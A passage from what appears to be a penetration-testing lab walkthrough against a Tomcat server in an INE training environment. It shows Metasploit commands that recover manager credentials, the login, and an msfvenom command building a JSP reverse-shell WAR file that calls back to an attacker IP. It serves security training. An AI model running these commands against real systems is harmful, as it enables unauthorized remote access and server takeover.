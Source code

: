 Use the following commands to set the RHOSTS to the target URL, that is,  and turn off the verbosity:

Commands:

set RHOSTS server3.ine.local

set VERBOSE false

exploit

![](../media/Blackbox%20lab%20INE_112.png)

The last commandexploitwould, you guessed it, exploit the target Tomcat server.

Notice that we got back the valid credentials to access the Tomcat manager application!

Step 19: Access Tomcat Manager Application interface.

Let's access the/managerresource using the credentials recovered in the previous step:

Username: tomcat Password: s3cret

![](../media/Blackbox%20lab%20INE_113.png)

![](../media/Blackbox%20lab%20INE_114.png)

And we have successfully logged in!

Scroll down to the Deploy section. In the WAR file to deploy subsection, we will upload a malicious WAR file to compromise the target server.

![](../media/Blackbox%20lab%20INE_115.png)

Step 20: Generating a malicious WAR file and deploying it to the target server.

We will use msfvenom command to generate a malicious WAR file in order to gain the shell session on the Tomcat server.

Use the following commands (withLHOSTset to the IP of your Kali instance):

Commands:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.73.96.2 LPORT=443 -f war > shell.war

file shell.war

Here's the summary of the flags used with msfvenom:

       -  -p: To specify a payload, which we have set to a JSP reverse TCP shell
       -  LHOST: To specify the IP address/URL of the attacker machine, that's the Kali instance in our case
       -  LPORT: The port on the attacker machine on which the listener must be started to receive back the shell session
       -  -f: To specify the output format, which we have set to war
![](../media/Blackbox%20lab%20INE_116.png)

The generated file is saved to the file named shell.war.
